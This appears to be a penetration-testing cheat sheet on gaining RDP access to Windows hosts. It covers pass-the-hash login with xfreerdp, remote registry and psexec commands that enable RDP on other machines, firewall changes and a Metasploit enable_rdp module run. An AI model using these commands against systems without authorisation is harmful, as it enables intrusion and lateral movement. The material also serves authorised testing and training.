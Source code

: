 ```yaml
---
description: >-
  How to use RDP (Remote desktop protocol) to gain access to a host, rdp runs on
  port 3389 by default in windows.
---
```


# Remote Desktop

A user need to be part of the "Remote Desktop Users" in order to login to the host via RDP.

To add user to the "Remote Desktop users" run:

```text
net localgroup "Remote Desktop Users" UserLoginName  /add
```

## rdesktop

Remote Desktop for windows with share and 85% screen: 

`rdesktop -u username -p password -g 85% -r disk:share=/tmp/share 10.10.10.10` 

## xfreerdp

Login using hash:

`Xfreerdp /u:admin /d:win2012 /pth:[hash] /v:192.168.0.1` 

When CredSSP is required: 

`xfreerdp --plugin rdpdr --data disk:home:/tmp -- -f -u john 192.168.0.44` 

* To exit press 'ctrl+alt+enter' 

## remmina 

install remmina:

`apt install remmina`

have a rdp client by default which you can use to connect.

## Enable RDP

### Enable rdp from registry

```text
reg add "\\host\HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Enable from netsh

```text
netsh firewall set service remoteadmin enable 
netsh firewall set service remotedesktop enable
```

### Enable using psexec

```text
psexec \\host reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
/usr/local/bin/psexec.py user:password@10.0.0.1 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

## Enable using metasploit

```text
use post/windows/manage/enable_rdp
msf5 post(windows/manage/enable_rdp) > run

[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[+] 	RDP Service Started
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20200520112125_default_10.50.30.103_host.windows.cle_789147.txt
[*] Post module execution completed
msf5 post(windows/manage/enable_rdp) > 

```

